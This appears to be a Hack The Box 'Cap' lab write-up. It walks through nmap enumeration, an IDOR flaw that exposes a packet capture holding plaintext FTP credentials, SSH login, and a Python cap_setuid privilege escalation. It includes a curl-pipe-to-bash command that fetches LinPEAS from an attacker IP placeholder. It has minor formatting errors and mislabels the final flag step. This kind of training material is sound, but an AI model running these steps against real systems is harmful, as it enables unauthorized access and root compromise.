 
![Image](https://github.com/user-attachments/assets/588b8611-9c83-4c92-8812-286caff49e23)


### Write-up: **Hack The Box - Cap**

#### **01-Enumeration.md**
```markdown
# Enumeration

## Nmap
Start with an nmap scan to check open ports and services:
```bash
nmap -sC -sV -Pn 10.129.219.24
```
**Results**:
- Open Ports: 21 (FTP), 22 (SSH), 80 (HTTP)

![Nmap Scan Results](https://github.com/user-attachments/assets/c6fb655e-c500-40e1-b10d-a3e90491c67e)
)

The HTTP service is running **Gunicorn**, a Python-based HTTP server. No anonymous FTP access is available.

## HTTP Service
Browsing the HTTP server shows a dashboard with network-related functionalities. Certain pages display the output of commands like `ifconfig` and `netstat`, indicating that system commands are being executed in the background.

![Web Dashboard](https://github.com/user-attachments/assets/a4522c59-b984-4c5a-b034-f333a8cd5287)
![Network Info on Web Dashboard](https://github.com/user-attachments/assets/b1433e2a-5252-43a3-9249-601240604ef2)
![Security Snap Shot User 1](https://github.com/user-attachments/assets/bdd14d07-a31e-48ef-a82b-4012c122dab8)

The usrl ends in a 1, there are two options both work. first you can just change the number to 0-2 etc and see what works. in this case changing the number to 0 will allow you to download a PCAP file which has infomration. Another method is to use `FFUF` and identify other account which might be accesed. below is the screen shot for what I used. 
![FFuF](https://github.com/user-attachments/assets/4943d366-defe-4745-91b8-12b9adea043a)


```

#### **02-Foothold.md**
```markdown
# Foothold

## Wireshark
```
Download the PCAP file for user 0 and run the following command
![Wireshark PCAP](https://github.com/user-attachments/assets/2ee7f46d-ebd7-44c5-a599-cedbdeed30c6)

```
## IDOR Exploit
While creating packet captures, the URL follows the pattern `/data/<id>`. Incrementing the `id` allows access to previous users’ packet captures, revealing a vulnerability known as **Insecure Direct Object Reference (IDOR)**.

Downloading the capture file at `/data/0` and opening it in WireShark reveals FTP traffic containing plaintext credentials:
- **Username**: `nathan`
- **Password**: `Buck3tH4TF0RM3!`
```
![Wireshark filter](https://github.com/user-attachments/assets/cf2555b2-771d-48b5-8d51-d2e62ce6b836)

```
## SSH Access
Use the credentials to log in via SSH:
```bash
ssh nathan@10.10.10.245
```


![ssh into nathan](https://github.com/user-attachments/assets/f897c07c-2217-4e2a-9558-95308262a22e)

You now have a foothold on the system.

if you run ls you will see at .txt file with user Flag
![user flag](https://github.com/user-attachments/assets/5b98e2a8-df1b-4b5f-a96c-0ac05d8fcd48)

```

#### **03-Privilege Escalation.md**
```markdown
# Privilege Escalation

## LinPEAS Scan
Run LinPEAS to find privilege escalation vectors. Download LinPEAS using a Python web server on your attacker machine:
```bash
sudo python3 -m http.server 80
```
Then, download and execute it from the target machine:
```bash
curl http://<YOUR_IP>/linpeas.sh | bash
```
left side is attacking computer and right is victim
![linpeas](https://github.com/user-attachments/assets/f33dae68-952f-4621-9b43-cc77e5cab4c2)


The scan reveals that `/usr/bin/python3.8` has the following capabilities:
- **cap_setuid**
- **cap_net_bind_service**

### Exploit Python Capabilities
The **cap_setuid** capability allows the Python interpreter to switch to UID 0 (root) without the SUID bit set.

![linpeas vuln](https://github.com/user-attachments/assets/a109be53-21f6-4fca-9dac-2e5091131851)

A quick google search of this vuln will reval how to exploit

![Exploit](https://github.com/user-attachments/assets/886247b0-47a5-4014-91ea-e5c2fb968ed4)

To exploit this, run the following Python commands to spawn a root shell:
```python
import os
os.setuid(0)
os.system("/bin/bash")
```
![root](https://github.com/user-attachments/assets/83d9291e-f265-47cf-a9c3-7e7345fb917d)

## User Flag
After escalating privileges, retrieve the `user.txt` flag:
```bash
cat user.txt
```

![root flag](https://github.com/user-attachments/assets/82cdae30-e33a-45dd-b1c9-dce7ee3a4094)

```

---

